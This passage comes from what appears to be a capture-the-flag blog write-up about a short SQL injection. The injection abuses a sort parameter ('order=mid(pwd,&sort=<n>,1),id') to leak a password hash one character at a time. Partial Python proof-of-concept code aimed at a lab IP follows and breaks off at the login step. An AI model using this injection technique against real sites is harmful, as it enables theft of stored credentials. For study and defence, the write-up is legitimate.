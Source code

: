 Doing this for every character will extract the password hash from the database.

# Exploit
Running the exploit, it will try to register an user "nuit" with initial password "test". After this, it checks the sorting of each character in `md5("test")` with the payload `order=mid(pwd,&sort=<n>,1),id`.
After it has all informations it can extract from the single md5 hash, it uses the hash as new password and uses `md5(md5("test"))` as new hash. That's an easy way for an endless supply of hashes.
(See code at the end of the article)

![Exploit in GIF](/content/images/2017/12/ezgif.com-gif-maker.gif)

Needless to say: even with the sorting by id (which makes it more reliable and faster) we crush the below 22 characters challenge with 17 chars.
Without it would be 12 :)

# Conclusion
I have never ever extracted data by sorting the output. But it is a pretty good and fast method with short injections.

If there is a better method extracting the hash, let me know on twitter.

so long

# PoC Code
*Shame on me...the code is pretty ugly*
```python
import sys
import requests
import hashlib
from bs4 import BeautifulSoup

start='test'
t = {}
md5=hashlib.md5(start.encode('utf-8')).hexdigest()

s = requests.Session()
print("[+] Registering user 'nuit' with password '%s'" % (start))
r = s.post('http://33.33.33.10/index.php?action=register',data={
    'username':'nuit',
    'password':start,
    'email': 'blubb@blaa.com',
    'hp': 'http://1',
    'save':'Create'
})

print("[+] Querying user 'nuit' to get ID for later sorting")
r = requests.get('http://33.33.33.10/index.php?action=list')
soup = BeautifulSoup(r.text, 'html.parser')
table = soup.find('div',attrs={'id':'inhalt'})
for tr in table.find_all('tr'):
    names = tr.find_all('th')
    if(names[1].text == 'nuit'):
        id = names[0].text
        break

print("[+] Received ID: '%s'" % (id))
print("[+] Login to obtain session")
r = s.post('http://33.33.33.10/index.php?action=login',data={
    'username':'nuit',
    'password':start,
```
